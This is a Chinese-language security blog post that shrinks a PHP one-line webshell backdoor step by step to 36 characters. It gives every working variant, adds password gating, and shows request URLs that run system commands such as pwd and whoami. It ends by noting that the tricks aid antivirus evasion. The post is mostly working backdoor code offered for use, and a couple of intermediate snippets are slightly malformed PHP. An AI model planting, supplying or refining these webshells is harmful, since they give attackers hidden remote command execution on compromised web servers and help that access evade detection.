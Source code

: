 # 一句话木马的精简史
=========

原创 lwjs [信安之路](javascript:void(0);)

**信安之路** 

微信号 xazlsec

功能介绍 坚持原创，专注信息安全技术和经验的分享，致力于帮助十万初学者入门信息安全行业，为信息安全事业奋斗终身。

_2022-08-25 09:52_ _发表于山西_

收录于合集

今天来看看如何精简一个 php 后门，基于 php 的特性，让 php 后门的字节最小化，首先编写一个一句话后门：

```php
<?php
    $function = $_GET['function'];
    $argument = $_GET['argument'];
    $function($argument)
?>
```

使用方式（function 参数是要执行的函数名，比如 exec、eval、system 等执行命令的函数，argument 为函数的参数，根据不同的函数，使用的参数不同）：

> http://example.com/shell.php?function=system&argument=pwd

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdyKfVllkibgjOuUOzCo3Bs8oDA0LJdT31XSYxZpJiczg8UpyVRHrUWFXFmibbichc2DybyR7xdg6Cs3Q/640?wx_fmt=png)

目前该 webshell 的大小为 98 字节：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdyKfVllkibgjOuUOzCo3Bs8jf9U1R6J6UHu4pDmMkM1Yz3vLliaeH8zmDwqJO2a30KRemicViby9xAOw/640?wx_fmt=png)

我们看到 shell 中的变量名和参数名都比较长，直接可以缩减为一个字符，比如：

```php
<?php
    $f = $_GET['f'];
    $a = $_GET['a'];
    $f($a)
?>
```

对于 PHP 来说，结束标签 `?>` 也可以不要，然后将变量名也缩减掉之后变成：

```php
<?php
    $_GET['f']($_GET['a']);
```

当前脚本的大小已经缩减到了 34 个字符，测试下是否可用：

> http://example.com/shell.php?f=system&a=pwd

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdyKfVllkibgjOuUOzCo3Bs8RP9mQbba1gyH47sx6QLs4mzHjIMZ2dXAZ67R9AYANWs41LsYu9CVibw/640?wx_fmt=png)

现在有个问题，没有设置密码，任何人都可以使用这个 shell，现在需要增加一个访问密码：

```php
<?php
  if ($_GET['p']=='password'){
    $_GET['f']($_GET['a']);
  }
```

使用时在参数中增加 `p=password` 即可：

> http://example.com/shell3.php?f=system&a=pwd&p=password

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdyKfVllkibgjOuUOzCo3Bs8av3mmVOyyDRNTZxX5icTSfJ381qLZsMlxFBYQXibJGF16ZXGcz55TEibw/640?wx_fmt=png)

增加了密码功能之后，后门大小变成了 64 字节，还能再进行缩减吗？

对于 php 而言，存在一种叫三元运算符的东西，比如正常写 `if else`:

> if ($movie == ‘marvel’){echo ‘y’} else{‘n’}

使用三元运算符之后的写法：

> ($movie == ‘marvel’ ? echo ‘y’ : echo ‘n’)

应用到我们的 shell 中，变成了：

```php
<?php
    ($_GET['p']=='password')?$_GET['f']($_GET['a']):y);
```

然后密码可以设置短点，比如 `_`，然后将换行符等空白符尽可能去掉：

```php
<?php ($_GET['p']=='_'?$_GET['f']($_GET['a']):y);
```

当前字节数只剩下了 50 个，我们还可以利用 && 先执行密码验证后执行命令的方式，如果密码验证失败这该脚本执行结束，最后变为：

```php
<?php $_GET['p']=='_'&&$_GET['f']($_GET['a']);
```

现在这个 shell 字节已经缩减到 47 个，php 还有一个特性 `<?php` 与 `<?=` 等价，又可用缩减两个字节：

```php
<?=$_GET['p']=='_'&&$_GET['f']($_GET['a']);
```

最后，php 允许 `$_GET[f]` 这样的写法， 所以我们可以将 shell 中的单引号都去掉，又能减少 8 个字符：

```php
<?=$_GET[p]==_&&$_GET[f]($_GET[a]);
```

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdyKfVllkibgjOuUOzCo3Bs8acbb9vicUUYGejRmCvhHBYIyATu6ttOVZeVYRrRYpXhauHxOCR6qDJg/640?wx_fmt=png)

缩减到最后的 shell 只有 36 个字符，测试下是否可以正常使用：

> http://example.com/shell7php?f=system&a=whoami&p=\_

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdyKfVllkibgjOuUOzCo3Bs8vNoKzO4hzePU4tkXBtXuH0EQITaBgTrbibEmXBCPsvrQOoxWgNp9iaPg/640?wx_fmt=png)

经过一系列的操作，webshell 获得了极大的缩减，其中包含了多个 PHP 脚本的特性，这些特性对于后续的 webshel 免杀会有极大的帮助，极具学习的价值。




